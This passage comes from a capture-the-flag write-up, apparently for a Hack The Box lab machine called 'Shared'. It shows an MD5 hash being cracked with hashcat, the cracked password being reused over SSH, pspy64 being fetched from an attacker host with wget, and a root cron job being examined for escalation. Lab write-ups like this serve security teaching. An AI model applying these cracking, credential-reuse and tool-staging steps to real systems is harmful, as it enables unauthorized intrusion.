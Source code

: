 Write that user + hash to file and crack with hashcat. 
```bash
➜  shared cat james_mason.hash                                                 
james_mason:fc895d4eddc2fc12f995e18c865cf273

➜  shared hashcat -a0 -m0 james_mason.hash /usr/share/wordlists/rockyou.txt --user

[... snip ...]
fc895d4eddc2fc12f995e18c865cf273:Soleil101                
Session..........: hashcat
Status...........: Cracked
```

Test credentials over SSH:
```bash
➜  shared ssh james_mason@shared.htb
james_mason@shared.htb password: Soleil101

james_mason@shared:~$ id && cat user.txt
uid=1000(james_mason) gid=1000(james_mason) groups=1000(james_mason),1001(developer)
cat: user.txt: No such file or directory
```

`user.txt` is sadly not in the possesion of james', so it looks like we need to move laterally. From `id` we can see that james have a non-standard group `developer`, lets dig deeper into this.


### Step 3
In `/opt` we find the directory `scripts_review` which is empty. The directory is owned by `developer` so we can post scripts/files here, however they are deleted after a short while. 
```bash
james_mason@shared:/opt$ ls -al
drwxrwx---  2 root developer 4096 Jul 14 13:46 scripts_review

james_mason@shared:/opt/scripts_review$ touch test
james_mason@shared:/opt/scripts_review$ ls -al
total 8
drwxrwx--- 2 root developer 4096 Aug 25 06:53 .
drwxr-xr-x 3 root root      4096 Jul 14 13:46 ..
-rw-r--r-- 1 james_mason james_mason    0 Aug 25 06:53 test

james_mason@shared:/opt/scripts_review$ ls -al
total 8
drwxrwx--- 2 root developer 4096 Aug 25 06:53 .
drwxr-xr-x 3 root root      4096 Jul 14 13:46 ..
```

Upload `pspy64` to see if we can make sense why the files are deleted.
```bash
james_mason@shared:/dev/shm$ wget http://10.10.14.4/pspy64
james_mason@shared:/dev/shm$ chmod +x pspy64 
james_mason@shared:/dev/shm$ ./pspy64
[... snip ...]
2022/08/25 06:58:01 CMD: UID=0    PID=6809   | /usr/sbin/CRON -f 
2022/08/25 06:58:01 CMD: UID=1001 PID=6811   | /bin/sh -c /usr/bin/pkill ipython; cd /opt/scripts_review/ && /usr/local/bin/ipython 
2022/08/25 06:58:01 CMD: UID=0    PID=6813   | /usr/sbin/CRON -f 
2022/08/25 06:58:01 CMD: UID=1001 PID=6812   | /usr/bin/pkill ipython 
2022/08/25 06:58:01 CMD: UID=0    PID=6814   | /bin/bash /root/c.sh 
2022/08/25 06:58:01 CMD: UID=0    PID=6815   | sleep 5 
2022/08/25 06:58:01 CMD: UID=1001 PID=6816   | /usr/bin/python3 /usr/local/bin/ipython 
2022/08/25 06:58:06 CMD: UID=0    PID=6818   | rm -rf /opt/scripts_review/* 
2022/08/25 06:58:06 CMD: UID=0    PID=6819   | /bin/bash /root/c.sh 
2022/08/25 06:58:06 CMD: UID=0    PID=6821   | 
2022/08/25 06:58:06 CMD: UID=0    PID=6820   | /bin/bash /root/c.sh 
2022/08/25 06:58:06 CMD: UID=0    PID=6822   | /bin/bash /root/c.sh 
```